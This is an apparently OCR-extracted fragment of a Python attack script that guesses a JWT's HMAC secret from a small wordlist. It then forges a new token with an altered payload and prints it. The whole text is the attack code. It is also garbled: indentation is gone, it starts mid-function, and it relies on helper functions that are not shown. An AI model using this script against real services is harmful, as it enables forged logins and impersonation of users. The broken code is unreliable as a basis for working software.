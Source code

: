 ```python


return base64.urlsafe_b64encode(new_sign).decode('utf-8').rstrip('=')







header = jwt.split('.')[0]



payload = change_payload(jwt)



origin_sign = jwt.split('.')[-1]






brute_keys = ['hacker','jwt','insecurity','your-key','hacking'] #or read from file



for try_key in brute_keys:



target = ".".join(jwt.split('.')[:-1])



key = try_key.encode('utf-8')



if brute_sig(key, target.encode('utf-8')) == origin_sign:



print('[*]Brute sucess,the key is {}'.format(try_key))



new_target = "{}.{}".format(header.rstrip('='),payload.decode('utf-8').rstrip('='))



jwt = new_target + '.' + brute_sig(key, new_target.encode('utf-8')).rstrip('=')



print('[*]new jwt is: {}'.format(jwt))
```
